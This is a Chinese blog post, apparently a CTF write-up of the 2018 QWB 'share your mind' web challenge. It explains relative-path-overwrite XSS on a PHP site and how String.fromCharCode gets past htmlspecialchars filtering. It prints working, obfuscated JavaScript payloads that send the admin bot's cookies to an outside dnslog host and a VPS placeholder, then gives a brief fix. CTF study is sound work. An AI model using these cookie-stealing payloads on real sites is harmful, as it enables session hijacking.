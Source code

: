```yaml
---
layout:     post
title:      "强网杯CTF writeup之share your mind"
subtitle:   " \"安全研究\""
date:       2018-03-27 22:30:32
author:     "y1r0nz"
header-img: "img/hack.jpg"
tags:
    - 安全研究
    - CTF
    - 渗透经历
---
```




#### 0x01 前言

​	强网杯CTF online初赛已经告一段落，首先还是要感谢和跪舔一波公司战队所有的小伙伴，解题过程虽然烧脑但很精彩，2000个比赛战队情况下一度杀入前40。

​	早在比赛之前我就认为第二届相比第一届名次的角逐会更加激烈，对自己的失望也和期望基本一致，但也并不意味着我完全对玩ctf失去了兴趣。正因为参与了比赛并在比赛中尽力解出属于自己的题目，在赛后看看别人家的writeup，才可以根据这些思路总结下比赛经历并将其运用在其他地方。所以，经历这些过程之后的成长才是最重要的。

​	比赛期间自己在share your mind这题上Fuzz的时间最多，最终也没有想到思路，看了赛后大佬的writeup才后知后觉，这里简要的总结下吧。

— 

#### 0x02 关于做share your mind这题自己的一些心得

* __漏洞挖掘以及RPO XSS成因__

​	首先这题是一道web题，初步看了下提示以后就开始做了。

   ![share your mind1](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind1.png)	

​	根据这题的提示来到题目主页，这里要求输入用户名密码，注册了个账户发现能用便进去一看究竟。

![share your mind2](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind2.png)

​	来到主页report页面中发现了这样一个输入框，网站开发人员想要你把存在问题的页面链接提交给后台给他处理。大多数老铁和司机们看到这里基本上可以断定这题是一个xss盲打后台管理员cookie的套路题。

![share your mind3](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind4.png)

​	由于后台用的phantomjs写的xss bot（类似假的管理员机器人，xss打过去基本上秒回那种），这里随便构造一下有本站地址的url然后把xss payload放到后面打过去，发现后台确实可以成功访问自己的dnslog服务器。

![share your mind4](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind3.png)

​	由于本熊对xss的了解仅停留在写poc水平，还没对如何利用进行过深入研究过，但是根据题目hint1提示说xss的点根本不在report页面，所以我也就没在fuzzing payload上花更多的功夫。所以，后面的过程一直在寻找xss注入点，在寻找的过程中还发现了一枚彩蛋~ 

![share your mind5](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind5.png)

发现网站使用了php的htmlspecialchar函数并开启ENT_QUOTES开关对所有输出进行了过滤，也就是说html编码了尖括号和单双引号。。当我看到这个函数以为找到了突破口，过滤函数是可以绕过，并且确定xss绝对在这```http://39.107.33.96:20000/index.php/view/article/你发布文章的id```但是一直没有找到输出内容不在html标签之内的地方，所以当时的思路就一直卡在这里。。

​	在看了[Ph0rse大佬写的writeup](https://xianzhi.aliyun.com/forum/topic/2220#toc-2)后才知道原来发布文章不写标题只写内容在view文章页面是直接打印的内容，而两个都写了的话是把文章标题和内容都输出在html标签之间的，看看下面两张图就明白了。

![share your mind6](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind6.png)

![share your mind7](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind7.png)

好了，我们确定了xss输入点以后怎么触发这个xss呢，答案很隐蔽，用RPO XSS方式。首先我们来了解下RPO(relative path overwrite)即相对路径覆盖结合xss这种漏洞的成因，在漏洞利用之前首先需要掌握php url的一些冷知识。那就是phpinfo url，类似url重写。

​	根据[Wiki](https://zh.wikipedia.org/wiki/URL%E9%87%8D%E5%AF%AB)里面对url重写的解释：url rewrite是一种REST的相关技术，它可以在 Web Server 中，针对用户所提供的 URL 进行转换后，再传入 Web Server 中的程序处理器。这里可以知道url重写其实就是将常见携带参数形式的url重写为不携带参数的伪静态形式，在题目中可以反映为：

```http://39.107.33.96:20000/index.php/view/article/1494``` 等价于 ```http://39.107.33.96:20000/index.php?methode=view&article=1494```

这样的形式。

同时，在php的特性中%2f会被直接解析为斜杠，在通常情况下```http://39.107.33.96:20000/index.php/view/article/1494/..%2f..%2f..%2f..%2findex.php```代表```http://39.107.33.96:20000/index.php/view/article/1494/../../../../index.php```即在浏览器解析为向上跳了三层目录并使用新的index.php覆盖掉原来的index.php目录。说到这里我们思考下，假如服务端开启了phpinfo url呢？会不会无视php目录跳转的特性直接把```..%2f..%2f..%2f..%2findex.php```当作参数进行解析？答案是肯定的。

我们从前端代码中可以发现jquery.min.js这个文件是使用的相对路径的方式引入到index.php页面中。

![share your mind8](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind8.png)

浏览器将```http://39.107.33.96:20000/index.php/view/article/1494/..%2f..%2f..%2f..%2findex.php```将解析为```http://39.107.33.96:20000/index.php/view/article/1494/..%2f..%2f..%2f..%2findex.php/static/js/jquery.min.js```这种形式。从而导致最终访问```http://39.107.33.96:20000/index.php/static/js/jquery.min.js```这个页面，那本质上请求的是什么呢，其实还是```http://39.107.33.96:20000/index.php/view/article/1494```这篇文章的内容，绿盟那篇文章解释得很清楚：__客户端浏览器在加载相对路径文件时是以最后一个/为相对目录加载具体资源文件的__。只是将这篇文章的内容引入到了jquery.min.js，从而让浏览器误以为文章的内容就是这个js文件。

![share your mind9](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind9.png)

下面可以来实验一下，在write article页面写入alert(1)这种js语句。然后构造上述请求```http://39.107.33.96:20000/index.php/view/article/1493/..%2f..%2f..%2f..%2findex.php```，最终触发xss。

![share your mind10](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind10.png)

我们可以f12看下浏览器的请求形式

![share your mind11](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind11.png)

显然，alert(1)这条语句最终引入到jquery.min.js中并覆盖掉原文件内容，浏览器误以为jquery.min.js 中的内容为alert(1)导致js脚本被执行。

* __漏洞最终利用__

有了RPO XSS这个核武器，接下来就可以构造rpxss payload的exp脚本了。之前有提到服务端对所有输出到页面的字符使用了htmlspecialchar函数处理，故不可以使用单引号的。所以这里还有一个知识点就是使用javascript的fromCharCode函数绕过过滤限制。可以构造类似如下payload：

```(new Image()).src = 'http://VPSIP:Port?'+document.cookie```

最终构造的pyaload如下：

```(new Image()).src = String.fromCharCode(104,116,116,112,58,47,47,55,101,52,122,119,48,99,101,121,101,46,105,111,63)+document.cookie;```

从report页面发送到后台，这里code只需要写个脚本跑个md5字典下来进行碰撞猜测就可以得到了

![share your mind12](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind12.png)

打过去就可以得到cookie，然而这里cookie的值提示要打另外一个目录

![share your mind13](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind13.png)

搬砖Ph0rse的代码，exp可以按照下面这种方式用iframe标签的src属性去读本地相对路径。

``````javascript
var iframe = document.createElement(String.fromCharCode(105,102,114,97,109,101));
iframe.src = String.fromCharCode(47,81,87,66,95,102,108,52,103,47,81,87,66,47);
iframe.id = String.fromCharCode(102,114,97,109,101);
document.body.appendChild(iframe);
iframe.onload = function (){
    var c = document.getElementById(String.fromCharCode(102,114,97,109,101)).contentWindow.document.cookie;
var y1r0nz = document.createElement(String.fromCharCode(108,105,110,107));
y1r0nz.setAttribute(String.fromCharCode(114,101,108), String.fromCharCode(112,114,101,102,101,116,99,104));
y1r0nz.setAttribute(String.fromCharCode(104,114,101,102), String.fromCharCode(47,47,55,101,52,122,119,48,46,99,101,121,101,46,105,111,47,63,102,108,97,103,61) + c);
document.head.appendChild(y1r0nz);
}
``````

这段js代码的意思简而言之，在经过浏览器渲染以后就是下述的两行html代码

``` html
<iframe id="frame" src="/QWB_fl4g/QWB/">
<link rel="prefetch" href="http://7e4zw0.ceye.io/?flag=document.getElementById(frame).contentWindow.document.cookie">
```

prefetch属性规定了当前文档在链接文档之前被调用

提交到后台便在dnslog上得到flag了^_^

![share your mind13](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind15.png)

— 

#### 0x03 总结&修复方案

ctf的题烧脑，但是每一题的干货特别多。这题主要三个考点：

* 掌握通过xss bot盲打后台获取session的常见套路
* phpinfo url形式如何通过相对路径覆盖的方式触发xss payload
* 使用fromCharCode函数绕过htmlspecialchar函数的单引号过滤

浏览器和服务器这种误差是在现阶段内无法及时解决的，涉及到双方各自的应用标准。目前看来，比较直接的解决办法就是在页面中避免直接使用相对路径进行静态文件的加载了。

— 

#### 0x04 参考文献

1. 深入剖析RPO漏洞  [https://xianzhi.aliyun.com/forum/topic/2220#toc-2](https://xianzhi.aliyun.com/forum/topic/2220#toc-2)
2. Url重写 [https://zh.wikipedia.org/wiki/URL%E9%87%8D%E5%AF%AB](https://zh.wikipedia.org/wiki/URL%E9%87%8D%E5%AF%AB)
3. RPO技术浅析 [http://blog.nsfocus.net/rpo-attack/](http://blog.nsfocus.net/rpo-attack/)
